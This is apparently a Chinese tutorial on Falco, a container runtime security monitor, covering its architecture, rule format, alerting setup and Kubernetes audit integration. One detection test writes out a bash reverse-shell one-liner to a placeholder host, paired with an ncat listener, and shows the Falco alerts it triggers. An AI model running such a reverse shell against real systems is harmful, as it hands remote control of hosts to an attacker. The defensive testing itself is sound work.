


## 1. 为什么需要 Falco？

容器化普及进行的如火如荼，但是无论是公有云环境还是企业内部的容器化环境，都有可能会面对部分异常的用户行为，有些是有意为之，有些可能是无意之失，但是都可能给容器底层的主机造成安全的隐患。

容器的工作模式是共享宿主机内核，从出道以来就面临着各种安全的问题，比如 Fork 炸弹会一直耗尽主机的进程资源、容器逃逸获取到主机各种资源等都可能带来安全隐患（部分安全隐患已经得到了有效的解决，但是仍然存在众多的情况会造成安全问题）。

业内也有诸如 `gVisor` 和 `Kata Container` 等更加安全的容器技术演进，但是使用场景还是有所局限。在一般容器环境中，还是有相当多的场景下需要对于容器中的的可疑行为进行监控告警。

Falco 就是为云原生容器安全而生，可以通过灵活的规则引擎来描述任何类型的主机或者容器的行为和活动，在触发策略规则后可以实时发出警报告警，同时支持将告警集成到各种工作流或者告警通道；同时 Falco 可利用最新的检测规则针对恶意活动和 CVE 漏洞发出警报，而且规则可以实现动态更新和开箱即用。

## 2. Falco 是什么？

Falco 是云原生的容器运行时（Runtime）安全项目，主要有 Sysdig 为主开发，为 CNCF 项目，[近日 Sysdig 宣布将底层的内核模块、eBPF探针和库贡献给 CNCF](https://mp.weixin.qq.com/s/XDX3GNfeMy3KYor11fSFfQ?st=CCB46A928C5389B8E03AB77D46F037C35E1F5358C32D5E2B06184F361FB9A81DDD3801F1BC2FD2C67434DBA069E2A7B860AA00A2FB1444182E51D27F6088906CF32480D1D6761E3ACA61183B6DB9DB9EE4BECF097035CA22B393C24BA73A4642288978FCD27F505B0A435DADA2AB4C81C0E282C72017165F69021C86C433B7E2BA70F74B797C80A2A8474E93715260905C56983DBAC07424BBA9D88E11D8CC47&vid=1688850059323178&cst=5E650BAECD8E52AF128BC14831A97808187131AFDEF00D60DA126BAC353DC46B0F6E522B1212EA6589AFCCCFCDD3FFF3&deviceid=cf36ee20-beff-4bbf-a7d5-612e53e9a40e&version=3.0.40.2346&platform=mac)，Falco 项目仓库及依赖全部纳入 CNCF 进行管理，项目的代码仓库位于 [falcosecurity 项目](falcosecurity)。

Falco 可以轻松使用内核事件，并使用 Kubernetes 和其他云本机中的信息补充和丰富事件。 Falco 具有一组专门为 Kubernetes，Linux和云原生构建的安全规则。如果系统中违反了规则，Falco 将发送警报，通知到用户。

Falco 的功能示意图如下：


事件源主要包括了以下 3 种：

* Falco Drivers： Falco 的内置驱动主要有 Kernel Module、eBPF Probe和用户空间检测 3 种。当前用户空间检测已经具备了整体框架，但是目前还没有官方的支持 Driver（v0.24.0 版本开始支持）。其中 Kernel Module 和 eBPF Probe 主要是采集系统的系统调用（syscall），eBPF Probe 是作为 Kernel Module 替代方案存在的，性能高效且能够提供更好的安全性（避免内核Bug），但是对于内核版本有一定的要求（一般建议 4.10 以后 ）。
* Kubernetes 审计事件：对接 k8s 系统中 kube-apiserver 产生的审计事件，规则在 falco [k8s_audit_rules.yaml](https://github.com/falcosecurity/falco/blob/master/rules/k8s_audit_rules.yaml) 中定义，该事件源需要修改  kube-apiserver 中对于 audit 日志的保存方式，需要调整成基于 webhook 的方式，将审计日志发送到 Falco 内置的服务端口上。
* 丢弃系统调用事件：Falco 可以智能检测系统调用丢弃的事件（ v0.15.0以后的版本），可以基于规则进行告警。

## 3. Falco 实现了哪些功能？

### 3.1 Falco 架构

Falco 项目实现架构如下：



自上而下依次为：

* Falco：为基于规则扫描后的命令行展示，有点类似于 tcpdump，本身可以提供 gRPC 服务，用于前端界面连接和采集；
* Rule Engin：将 Falco 中定义的各种 yaml 规则解析到规则引擎中，并负责过滤和触发事件至 Falco 中；
* libsinsp：对于从 libscap 上报的底层事件进行信息获取、补充并发送至 Rule Engin 进行过滤；
* libscap：该库提供了类似于 libpcap（tcpdump 底层网络获取库）的功能，用于设置采集控制参数、保存文件和操作系统层面状态的搜集；
* kernel
  * Kernel Module：使用的内核模块，采用动态内核模块支持 (DKMS) 来编译和安装内核模块；
  * eBPF Probe：作为 Kernel Module 的替换技术，只在内核较高的系统中才能完全支持，通过设置环境变量 FALCO_BPF_PROBE 进行切换；

另外 Falco 还支持 k8s audit 日志的采集，需要在 k8s kube-apiserver 则通过 webhook 配置支持，支持的字段可以通过 `falco --list k8s_audit` 进行查看。

### 3.2 Falco 规则

Falco 中规则和规则引擎是整个项目的重点，规则采用 yaml 文件进行定义，一个具体的规则样例如下：

```yaml
- rule: Outbound or Inbound Traffic not to Authorized Server Process and Port
  desc: Detect traffic that is not to authorized server process and port.
  condition: >
    allowed_port and
    inbound_outbound and
    container and
    container.image.repository in (allowed_image) and
    not proc.name in (authorized_server_binary) and
    not fd.sport in (authorized_server_port)
  output: >
    Network connection outside authorized port and binary
    (command=%proc.cmdline connection=%fd.name user=%user.name user_loginuid=%user.loginuid container_id=%container.id
    image=%container.image.repository)
  priority: WARNING
  tags: [network]
```

主要有一些几个部分组成：

* rule：规则的名字；

* desc： 规则的描述；

* condition： 条件是重点，其中的各种条件 allowed_port 、inbound_outbound 等都为规则中定义的宏，这些宏也可以在本文件中找到；例如宏 `inbound_outbound` 的定义如下：

  ```yaml
  # Very similar to inbound/outbound, but combines the tests together
  # for efficiency.
  - macro: inbound_outbound
    condition: >
      ((((evt.type in (accept,listen,connect) and evt.dir=<)) or
       (fd.typechar = 4 or fd.typechar = 6)) and
       (fd.ip != "0.0.0.0" and fd.net != "127.0.0.0/8") and
       (evt.rawres >= 0 or evt.res = EINPROGRESS))
  ```

  

* output：符合条件事件的输出格式，文字中 `%proc.cmdline` 等为变量从本次触发的事件中提取；

* priority： 告警的优先级；

* tags： 本条规则的 tags 分类，本条为 network；

### 3.3 Falco 告警集中化展示

在单机 Falco 部署以后，我们更多的场景是将所部署 Falco 主机的日志或者告警进行集中式管理，`FalcoSideKick` 项目就是为此而生。

Falco 项目支持将日志按照 gGPRC/File/STDOUT/SHELL/HTTP 等多种方式进行输出。我们可以通过 HTTP 方式将日志汇总到部署的 FalcoSideKick 服务， FalcoSideKick 服务可以实现更加丰富的告警通道能力，包括 Slack/Altermanager/SMTP 等多种告警通道输出。同时 FalcoSideKick 还支持将数据输出到 FalcoSideKick  UI，用户可以通过界面进行查看。相关的配置在后续章节可以看到详细步骤。

基于 FalcoSideKick 集中式日志搜集架构：



FalcoSideKick  UI 的界面如下：


## 4 Falco 功能测试和验证

### 4.1 Falco 安装

#### 4.1.1 k8s 集群安装

如果是在 k8s 中的安装参见仓库 [charts](https://github.com/falcosecurity/charts)。

#### 4.1.2 单机安装

[下载](https://falco.org/docs/getting-started/download/)及[安装](https://falco.org/docs/getting-started/running/)参见官方网址。由于采用 ebpf 作为底层事件采集，需要安装相关头文件，例如：

```bash
$ apt-get -y install linux-headers-$(uname -r)
# 或者
# yum -y install kernel-devel-$(uname -r)
```

Ubuntu 20.04 最简单的方式使用 Docker 运行，也可以使用本地服务的方式运行；

**Docker 方式运行**

```bash
$ sudo docker pull falcosecurity/falco:latest
$ sudo docker run --rm -i -t \
     --privileged \
     -e FALCO_BPF_PROBE="" \
     -v /var/run/docker.sock:/host/var/run/docker.sock \
     -v /dev:/host/dev \
     -v /proc:/host/proc:ro \
     -v /boot:/host/boot:ro \
     -v /lib/modules:/host/lib/modules:ro \
     -v /usr:/host/usr:ro \
     -v /etc:/host/etc:ro \
     falcosecurity/falco:latest
     
* Skipping download, eBPF probe is already present in /root/.falco/falco_ubuntu-generic_5.4.0-42-generic_46.o
* eBPF probe located in /root/.falco/falco_ubuntu-generic_5.4.0-42-generic_46.o
******************************************************************
** BPF doesn't have JIT enabled, performance might be degraded. **
** Please ensure to run on a kernel with CONFIG_BPF_JIT on.     **
******************************************************************
* Success: eBPF probe symlinked to /root/.falco/falco-bpf.o
2021-03-05T07:05:43+0000: Falco version 0.27.0 (driver version 5c0b863ddade7a45568c0ac97d037422c9efb750)
2021-03-05T07:05:43+0000: Falco initialized with configuration file /etc/falco/falco.yaml
2021-03-05T07:05:43+0000: Loading rules from file /etc/falco/falco_rules.yaml:
2021-03-05T07:05:43+0000: Loading rules from file /etc/falco/falco_rules.local.yaml:
2021-03-05T07:05:43+0000: Loading rules from file /etc/falco/k8s_audit_rules.yaml:
2021-03-05T07:05:43+0000: Starting internal webserver, listening on port 8765
```

通过启动的输出信息我们可以得知 falco 启动的配置文件为 `/etc/falco/falco.yaml`，规则引擎中的规则有 3 个文件:

* falco_rules.yaml：falco 中关于文件、进程和网络等相关的规则定义；
* falco_rules.local.yaml：用于我们本地扩展规则；
* k8s_audit_rules.yaml：k8s 审计日志规则，内部启动内置服务 8765 端口在默认路径 `/k8s_audit`  上接受 k8s 的审计日志并经过规则过滤生成相对应的告警，完整的文件参见[这里](https://github.com/falcosecurity/falco/tree/master/rules)。

### 4.2 Falco 功能测试

#### 4.2.1 Shell 执行验证

在 Falco 机器上并通过登录到本机的 Pod 实例（或者容器实例）中测试：

```bash
# 在另外一个窗口执行 
# docker exec -ti e6a37f5f7c33  /bin/bash -il
# falco 日志中打印以下内容：
11:04:50.016293434: Notice A shell was spawned in a container with an attached terminal (user=root user_loginuid=-1 k8s_df-nginx_dfagent-67h29_cr-dfagent_1361ce52-4664-11eb-9fdb-00163e120ca5_1 (id=e6a37f5f7c33) shell=bash parent=runc cmdline=bash -il terminal=34816 container_id=e6a37f5f7c33 image=registry.cn-hangzhou.aliyuncs.com/test-cw/df-nginx)
```

#### 4.2.2 Shell 反弹验证

在来一台攻击的机器上启动 ncat：

```bash
  $ ncat -l -p 10000
  # 在 shell 反弹成功后可以拿到 Pod 的 shell 权限，界面如下：
  root@xxx:/#
```

在上个样例中我们登录的 Pod 中执行一下命令，那么在上述攻击的机器的命令行中就会得到该 Pod 的 shell 权限：

```bash
root@backend-05:/# bash -i >& /dev/tcp/a.b.c.d/10000 0>&1
```

对于这种行为 falco 可以进行检测和发现：

```bash
11:16:41.458470109: Notice Known system binary sent/received network traffic (user=root user_loginuid=-1 command=bash connection=IPA:58426->IPB:10000 
container_id=e6a37f5f7c33 image=xxx)

11:16:41.458523964: Warning Redirect stdout/stdin to network connection (user=root user_loginuid=-1 pod_name (id=e6a37f5f7c33) process=bash parent=bash cmdline=bash terminal=34816 container_id=e6a37f5f7c33 image=xxx fd.name=IPA:58426->IPB:10000 fd.num=1 fd.type=ipv4 fd.sip=IPA)

11:16:41.458525412: Warning Redirect stdout/stdin to network connection (user=root user_loginuid=-1 podname (id=e6a37f5f7c33) process=bash parent=bash cmdline=bash terminal=34816 container_id=e6a37f5f7c33 image=xxx fd.name=IPA:58426->IPB:10000 fd.num=1 fd.type=ipv4 fd.sip=IPA)
```

### 4.3 Falco 告警集中化配置

修改配置文件  falco.yaml, IP 地址需要根据自己的地址调整：

```yaml
json_output: true
json_include_output_property: true
http_output:
  enabled: true
  url: "http://172.17.0.14:2801/"
```

修改完配置以后重新加载，`kill -1 $(cat /var/run/falco.pid)`

然后启动 falcosidekick 和 falcosidekick-ui。

```bash
$ sudo docker run -d -p 2801:2801 -e WEBUI_URL=http://172.17.0.14:2802 falcosecurity/falcosidekick
$ sudo docker run -d -p 2802:2802 falcosecurity/falcosidekick-ui 

# 界面访问 http://ip:2802/ui
```

### 4.4 k8s audit 日志采集

falco 从 0.13 版本开始支持 k8s audit 日志，启动一个内部内嵌的服务端，用于接受 k8s audit 日志输出，这需要在 k8s 中定义相关的规则将 audit 日志提交至该服务，然后经相关规则定义后，输出可能触发的告警信息。
架构图如下：


主要保证 falco.yaml 中开启了内部嵌入服务，相关配置如下：

```bash
webserver:
   enabled: true
   listen_port: 8765
   k8s_audit_endpoint: /k8s_audit
   ssl_enabled: false
   ssl_certificate: /etc/falco/falco.pem
```

在 k8s 中需要配置对应的 kubeconfig 文件，并在 api-server 中引入：

```
$ cat <<EOF > /etc/kubernetes/audit-webhook-kubeconfig
apiVersion: v1
kind: Config
clusters:
- cluster:
    server: http://<ip_of_falco>:8765/k8s_audit
  name: falco
contexts:
- context:
    cluster: falco
    user: ""
  name: default-context
current-context: default-context
preferences: {}
users: []
EOF
```

在 api-server 启动中添加对应的文件：

```bash
--audit-policy-file=/etc/kubernetes/audit-policy.yaml --audit-webhook-config-file=/etc/kubernetes/audit-webhook-kubeconfig
```

## 5. 总结

Falco 作为云原生的容器安全解决方案，基于系统调用和用户空间的事件（实现中ing）采集，同时也支持 k8s audit 审计日志的接入，提供了一套灵活扩展的容器安全监测机制；在告警信息的集中化处理和告警输出上也已经集成了常见的通道，可以快速方便地集成到当前的工作流或者告警系统中，部署、使用和上手上难度都不太高，而且原生支持了 k8s 环境，让容器中的事件以容器环境的信息进行了展示。

Falco 核心在于规则，规则定义和维护，都需要安全人员基于自身安全策略的规则进行定义和维护，由于规则的定制化还可能存在规则被绕过的情况，只有融入到具体情况千差万别的生产环境中，安全运营团队持续地采用多种检测手段交叉验证、形成闭环，才能真正有效发挥作用。

无论如何，Falco 还是为我们提供了容器安全的基础能力，在其之上我们可以结合自己的需求完成更多定制化的安全功能诉求。


## 参考资料

* [Sysdig将Falco的内核模块、eBPF探针和库贡献给CNCF](https://mp.weixin.qq.com/s/XDX3GNfeMy3KYor11fSFfQ?st=CCB46A928C5389B8E03AB77D46F037C35E1F5358C32D5E2B06184F361FB9A81DDD3801F1BC2FD2C67434DBA069E2A7B860AA00A2FB1444182E51D27F6088906CF32480D1D6761E3ACA61183B6DB9DB9EE4BECF097035CA22B393C24BA73A4642288978FCD27F505B0A435DADA2AB4C81C0E282C72017165F69021C86C433B7E2BA70F74B797C80A2A8474E93715260905C56983DBAC07424BBA9D88E11D8CC47&vid=1688850059323178&cst=5E650BAECD8E52AF128BC14831A97808187131AFDEF00D60DA126BAC353DC46B0F6E522B1212EA6589AFCCCFCDD3FFF3&deviceid=cf36ee20-beff-4bbf-a7d5-612e53e9a40e&version=3.0.40.2346&platform=mac)
* [探索Sysdig Falco：容器环境下的异常行为检测工具](https://mp.weixin.qq.com/s/BAaOREFajQKk3y4MHDgmuA)
* [使用 Falco 和 Kubernetes 设置运行时容器安全监控](https://developer.ibm.com/zh/technologies/containers/tutorials/installing-and-using-sysdig-falco/)
* [云原生运行时安全FALCO入门](https://davidlovezoe.club/wordpress/archives/831)
* [Falco 0.13.0 Released, Kubernetes Audit Event Support](https://sysdig.com/blog/falco-0-13-released-kubernetes-audit-support/)
* [Auditing with Falco](https://v1-16.docs.kubernetes.io/docs/tasks/debug-application-cluster/falco/)
* [云原生之容器安全实践-美团](https://tech.meituan.com/2020/03/12/cloud-native-security.html)
